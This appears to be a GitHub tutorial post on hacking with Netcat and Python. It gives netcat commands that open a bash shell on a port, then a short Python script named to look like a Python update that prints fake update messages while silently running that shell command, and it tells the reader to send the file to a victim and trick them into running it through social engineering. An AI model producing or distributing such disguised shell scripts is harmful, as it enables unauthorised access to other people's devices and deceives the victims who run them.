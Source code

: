 # Hacking-with-Netcat-and-Python
In this method, with the help of [Netcat tool](https://nmap.org/ncat/) you can create a [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) on the victims device, and if you are on the same network you can easily access it. But the problem here is that you cannot always have access to the victims device to execute the ***netcat command*** soo, I got an idea, what if you write a python script which will automate the command for you, and if you add some fancy code that the victim will see on his device before creating a shell, that makes it more appealing. So in this post, I will share this method with you.

## Is it my idea ??
 I think, I got this idea while solving the machines/box. Where, in any input box if you type a command that lets you have a reverse shell on the targets website and you get a shell access on the webserver. All I did was just overthink and take the idea to a next level.

## A Personal note from writer.
  To successfully execute this attack you will need your own research and a little knowledge about [Social Engineering](https://www.imperva.com/learn/application-security/social-engineering-attack/). Also this is my first time creating a proper Github post, soo plz let me know if there is anything missing or something, I did wrong. 

 ## Pre-Installed stuff
 - [Python](https://www.python.org/downloads/) ( on both device )
 - [netcat](https://nmap.org/download.html) ( on both device )

# Method
Its a simple but very effective way that a hacker might use to hack their Target. In this type of attack, the attacker will be on your same network as you and send a python script that if you execute, will open a shell on a certain port that the attacker might connect to and try to do anything on your device. Lets see how its Done...

First Lets understand how to create a Reverse shell with Netcat command, Also if you get any errors plz check the netcat manual or do some research.

## How to create a basic Reverse Shell

***Victim's Device :***
        
  First you need netcat installed on your victim's device, if it's an Android or IOS then install it via Termux or iSH, and if it's Win or Mac install it through [nmap website](https://nmap.org/download.html) (netcat is pre-installed in linux). After installing netcat you just have to open a port where your device will connect (in this example the port will be "4545") and after connection with the "e" flag we will tell the device which file to execute.
```
nc -l -p 4545 -e bin/bash
```

***Target Device :***

  On your device you also need netcat installed, then as you know the port which is open you can directly connect on it. To connect you must also know the target's IP.
```
nc <IP> 4545
```

And **congratulation** you're now connected to your target device. But, there are chances that target might find it and try to interupt in between, To avoid that we can try my method.

# My Method

For this you need to create a python script which will run this netcat command in the background so the victim will not see it and we can do our work, Also we will add some text that will be displayed so the victim thinks that this is some thing genuine and their for we will also name the file "Python_2023_update.py" you can do [social engineering](https://www.imperva.com/learn/application-security/social-engineering-attack/) to know what kind of files victim is most likely to accept and open.

```
import os
print("Python is updating, Please wait")
os.system("nc -l -p 4545 -e bin/bash")
print("Python is upto date")
```

You now have the the file, you just have to send it to your victim and trick him into opening/run it ( if you don't know how to do it, try Social Engineering ). Ater the target executes the file, you can connect to the port from your device and exploit it. 

